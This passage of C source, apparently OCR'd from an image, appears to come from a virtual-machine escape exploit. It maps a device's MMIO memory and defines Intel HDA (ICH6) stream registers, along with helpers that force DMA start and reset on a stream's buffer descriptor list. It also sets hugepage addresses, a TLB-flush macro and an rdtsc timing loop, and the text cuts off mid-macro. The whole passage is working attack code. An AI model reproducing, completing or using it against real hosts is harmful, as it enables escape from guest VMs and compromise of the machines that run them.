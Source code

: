 ```c
    if (res == MAP_FAILED) {
        perror("[-] failed to mmap mmio.");
        exit(EXIT_FAILURE);
    }
    if (mlock(res, mmio_size) == -1) {
        perror("[-] failed to mlock mmio_mem.");
        exit(EXIT_FAILURE);
    }
    printf("[*] mmio_mem: %p\n", res);

    close(mem_fd);
    return res;
}

#define mmio_write64(mem, offset, value) { \
    (*(volatile uint64_t *)(mem + offset) = value); \
    __sync_synchronize(); \
}

#define HUGEPAGE_SZ (2*1024*1024)
#define HDA_VA      0xcafe000
#define DATA_VA     0xbabe00000
#define HUGE_VA     0xc0de00000
volatile void *hda_mmio_mem = NULL;
volatile void *data = NULL;
volatile void *huge = NULL;

// addr
#define ST_REG(_n, _o) (0x80 + (_n) * 0x20 + (_o)) // _n = 0~3 IN; = 4~7 OUT
/* stream register offsets from stream base */
#define ICH6_REG_SD_CTL			0x00
#define ICH6_REG_SD_LVI			0x0c
#define ICH6_REG_SD_BDLPL		0x18
#define ICH6_REG_SD_BDLPU		0x1c

/* SD_CTL bits */
#define SD_CTL_STREAM_RESET	0x01	/* stream reset bit */
#define SD_CTL_DMA_START	0x02	/* stream DMA start bit */
#define SD_CTL_STREAM_TAG_SHIFT	20

#define set64(idx, off, val) (*(volatile uint64_t*)(data+((idx)*0x2000)+(off)) = (val))

void parse_bdlp(uint8_t st, uint64_t lvi) {
    mmio_write64(hda_mmio_mem, ST_REG(st, ICH6_REG_SD_LVI), lvi);
    mmio_write64(hda_mmio_mem, ST_REG(st, ICH6_REG_SD_CTL), SD_CTL_DMA_START);
    mmio_write64(hda_mmio_mem, ST_REG(st, ICH6_REG_SD_CTL), SD_CTL_STREAM_RESET);
}

#define invlpg() { \
    __asm__ volatile ( \
        "invlpg (%%rax)" \
        : \
        : "a" (HUGE_VA) \
        : "memory" \
    ); \
}
#define CPU_FREQ_MHZ 3000ULL
#define spin() { \
    cycles = CPU_FREQ_MHZ * 100000ULL; \
    __asm__ ( \
        "rdtsc\n\t" \
        "shl $32, %%rdx\n\t" \
        "or %%rdx, %%rax\n\t" \
```